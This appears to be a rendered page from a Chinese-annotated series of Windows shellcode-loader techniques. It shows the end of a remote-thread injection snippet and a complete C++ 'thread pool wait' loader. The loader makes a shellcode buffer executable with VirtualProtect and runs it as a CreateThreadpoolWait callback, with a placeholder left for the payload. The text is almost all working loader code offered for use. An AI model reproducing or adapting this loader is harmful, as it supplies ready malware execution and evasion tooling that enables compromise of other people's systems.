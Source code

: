 ```cpp
    CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

    return 0;
}

```



# 12.线程池等待

```cpp
#include <stdio.h>
#include <Windows.h>

unsigned char shellcode[] = "填写shellcode";

void ThreadPoolLoader() {
    // 定义一个DWORD变量，用于存储原始内存保护属性
    DWORD oldProtect;
    
    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 创建一个事件对象，初始状态为有信号状态，使用默认安全属性，非手动重置，无名称
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);

    /*
    CreateThreadpoolWait用于创建一个线程池等待对象的函数,
    程池等待对象允许您在等待内核对象（如事件、信号量等）变为有信号状态时执行特定的回调函数
    其语法格式如下:
    PTP_WAIT CreateThreadpoolWait(
      PTP_WAIT_CALLBACK pfnwa,  //指向回调函数的指针
      PVOID              pv,   //传递给回调函数的参数
      PTP_CALLBACK_ENVIRON pcbe  //指向线程池回调环境的指针,置NULL则表示使用默认的环境
    );
    */
    // 创建一个线程池等待对象，关联到shellcode作为回调函数，回调函数参数和线程池环境为NULL
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(LPVOID)shellcode, NULL, NULL);


    /*
    SetThreadpoolWait函数用于线程池中添加等待对象的函数。
    当等待的内核对象（如事件、信号量等）变为有信号状态时，线程池会调用与等待对象关联的回调函数
    其语法格式如下:
    VOID SetThreadpoolWait(
      PTP_WAIT pwa,  //指向要添加到线程池的等待对象的指针
      HANDLE   hObject,  //要等待的内核对象的句柄,当这个内核对象变为有信号状态时,线程池会调用与等待对象关联的回调函数
      PFILETIME pftTimeout  //指向一个FILETIME结构的指针，表示等待超时的时间
    );
    */
    // 将等待对象添加到线程池中,当事件对象event触发（变为有信号状态）时，线程池会调用与threadPoolWait关联的回调函数
    SetThreadpoolWait(threadPoolWait, event, NULL);

    // 等待事件对象变为无信号状态（表示shellcode执行完毕），无限等待
    WaitForSingleObject(event, INFINITE);
}

void main() {
    ThreadPoolLoader();
}
```
